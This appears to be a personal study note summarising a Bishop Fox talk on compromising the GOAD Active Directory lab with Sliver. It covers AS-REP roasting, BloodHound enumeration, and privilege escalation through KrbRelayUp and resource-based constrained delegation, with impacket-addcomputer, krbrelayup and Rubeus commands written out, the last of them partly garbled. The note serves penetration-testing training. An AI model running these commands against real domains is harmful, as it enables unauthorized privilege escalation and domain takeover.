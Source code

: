 # TALK Pwning the Domain With Sliver Framework

[YouTube Bishop Fox - Pwning the Domain With Sliver Framework](https://www.youtube.com/watch?v=PPNvN3P3ioY) description: *"Mastering the art of adversarial emulation with the most cutting-edge and advanced techniques is one of the keys to success for penetration testers. A definitive hallmark of an experienced ethical hacker is a meticulously crafted toolkit. But with an overwhelming array of tools at your disposal, how do you determine where to focus your efforts? During our exclusive livestream, watch how our renowned senior security expert, Jon Guild, leverages Bishop Fox’s Sliver, an open-source Red Team framework created by fellow Foxes Joe Demesy & Ronan Kervella, to refine his offensive security strategies and techniques. Gain valuable insights from Jon's first-hand experience in a vulnerable lab environment, covering pivotal techniques such as enumeration, lateral movement, and escalation. Be ready to level up your hacking skills at the conclusion of this training session with actionable tips and tricks. Join us to uncover the untapped potential of Sliver and take your offensive security skills to new heights. You’ll have the opportunity to dive into the world of Sliver and learn: - How to pwn the domain using Sliver - Techniques for developing and refining technical methodologies using the Sliver framework - A live demo highlighting Jon’s Sliver knowledge and expertise"*

This is sequel to [[TALK-Ace-The-OSEP-Exam-with-Sliver-Framework]]

[[Sliver]]

Recap:
- Recent changes to GOAD
- Starting on Meeren in Essos domain from
	- From Kali ASREP roast to `khal.drogo`
	- Owned `braavos` server
	- Enumerated with Bloodhound
	- [[GenericAll]] on `viserys`
	- Attempt KrbRelay for Privilege Escalation
	- Use [GitHub - KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) 
		- Explanation [gist Tothi - No-Fix Local Privilege Escalation from low-priviliged domain user to local system on domain-joined computers.](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)

To clarify variable usage:
```bash
$SRC..., $DST... = (for domain or other identifiers); src = local, dst = remote
```

Because of where we are in are long term attack path, Jon can add a computer with the *Horse password user*... with [[Impacket-Cheatsheet]] and [[ldeep]] (a wrapper around `ldapsearch`) to verify; **Authorial Opinion**: *learn how rough [[LDAP-Recon]] is to understand LDAP, before using the easy way, LDAP is used in internal application probably more than RPC (proof the amount of CTF that use LDAP is vastly greater than RPC)*
```bash
impacket-addcomputer $domain.$tld/$username -computer-name '$cpName' -computer-pass 'P@ssword1' -dc-ip $DSTdcIP
```  

Use [[Krbrelayup]] to Privilege Escalate *not* Lateral movement; we are on DC coercing the LDAP server to abuse `msDS-AllowedToActOnBehalfofotherIdentity` (fancy way of saying Resource based Constrained Delegation) - the machine can write to its own `msDS-AllowedToActOnBehalfofotherIdentity` and update this to want we want. Use `checkPort.exe` to get the correct port: [gist Tothi - No-Fix Local Privilege Escalation from low-priviliged domain user to local system on domain-joined computers.](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
```go
// Use relay to resource constrained delegation - valuable to know this
// Other is shadowprint
krbrelayup '' relay -m rbcd -cls $CLSchooseTrustInstallerItsGoodByServer -p $port -cn '$computerName' -cp 'P@ssword1' -d $doman.$tld
// Check Machines and Delegations with LDAP for confirmation
```

Use Rubeus for RBCD
```go
rubeus -i -M -- hash / password:P@ssword1 /user:$computerName /domain:$DSTdomain.$tld
```
## References

[YouTube Bishop Fox - Pwning the Domain With Sliver Framework](https://www.youtube.com/watch?v=PPNvN3P3ioY) 
[GitHub - KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) 
[gist Tothi - No-Fix Local Privilege Escalation from low-priviliged domain user to local system on domain-joined computers.](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
